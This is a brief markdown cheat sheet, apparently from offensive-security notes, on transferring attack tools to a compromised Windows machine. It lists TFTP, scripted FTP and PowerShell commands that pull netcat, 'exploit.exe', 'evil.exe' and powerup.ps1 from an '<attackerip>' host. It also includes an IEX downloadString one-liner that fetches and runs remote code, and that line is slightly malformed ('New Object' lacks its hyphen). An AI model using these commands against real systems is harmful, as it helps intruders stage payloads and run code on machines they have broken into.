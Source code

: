 # TFTP

- Windows XP and Win 2003 contain tftp client. Windows 7 do not by default 
- tfpt clients are usually non-interactive, so they could work through an obtained shell 

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe



# FTP (pyftpdlib client on Kali)

- Ftp is generally installed on Windows machines
- To make it interactive, use -s option

## On Kali install a ftp client and set a username/password

```
python3 -m pip install pyftpdlib  
python3 -m pyftpdlib -p 21 -u root -P root
```

## on Windows

```
ftp <attackerip>
> binary
> lcd
> get exploit.exe
```


### On Windows

```
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```


# Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Powershell download a file

```
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```
